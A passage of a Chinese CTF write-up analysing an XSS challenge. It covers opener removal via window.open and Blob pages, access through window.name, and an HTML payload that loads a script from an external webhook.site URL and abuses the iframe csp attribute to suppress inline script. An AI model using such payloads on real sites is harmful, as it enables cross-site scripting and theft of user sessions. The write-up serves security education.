 ``` js
function openNoOpener(url, name) {
  open(URL.createObjectURL(new Blob([`
    <script>
      open("${url}", "${name}");
      window.close();
    <\/script>
  `], { type: "text/html" })));
}
```

第二個方法我是在 Discord 裡面看到 Jazzy 提的，其實只要 open 之後自己把 opener 設成 null 就好：

``` js
function openNoOpener(url, name) {
  let w = window.open(url, name)
  w.opener = null
}
```

之所以可以這樣，是因為剛開啟之後會有一小段時間，開啟的 window 跟當前 window 是 same-origin，所以這一段時間是可以操作它的，接著才會被導到要前往的 URL。

雖然失去了 opener，表面上看起來跟開啟後的 window 脫節了，但其實利用 name 屬性就能夠再次存取到它，這點我以前有寫過：[iframe 與 window.open 黑魔法](https://blog.huli.tw/2022/04/07/iframe-and-window-open/#windowopen)。

解決了 opener 的問題以後，就可以來看另一個最麻煩的地方，就是那一段 script，如果能讓它不執行，那很輕鬆就能做到 XSS。但要怎麼讓它不執行呢？以前有[寫過](https://blog.huli.tw/2022/04/07/iframe-and-window-open/#iframe-%E7%9A%84-csp) iframe 上有個屬性叫做 csp，加上它之後就可以設置 CSP。

如同前面所說的，因為 same-site cookie，因此要直接利用題目的 memo 功能嵌入，程式碼如下（修改自 Jazzy 在 Discord 中提供的 payload）：

``` html
<script>
  const challengeHost = 'http://localhost:1337'
  function openNoOpener(url, name) {
    let w = window.open(url, name)
    w.opener = null
  }

  let html = `
    html
    <script src="http://webhook.site/0fdd5e6d-0882-44de-b593-212aecf604c1"><\/script>
    <iframe csp="script-src http: https:" src="/"></iframe>
  `;

  openNoOpener(`${challengeHost}/memo?memo=${encodeURIComponent(html)}`, 'main');
</script>
```

利用 CSP 不讓 inline script 執行，然後再載入一次網頁，就會執行原本準備好的 script。不過我實際試了一下，現在最新版會有錯誤：

> Refused to display 'http://localhost:1337/' in a frame. The embedder requires it to enforce the following Content Security Policy: 'script-src http: https:'. However, the frame neither accepts that policy using the Allow-CSP-From header nor delivers a Content Security Policy which is at least as strong as that one.

如果頁面原本沒有 csp 的話，是沒辦法硬要加上去的。從賽後討論看起來比較舊版的 Chrome 對於 same-origin 的 csp 似乎限制沒這麼嚴格，因此只有在舊版可以（不過我也不確定就是了，我懶得找舊版來試了）。
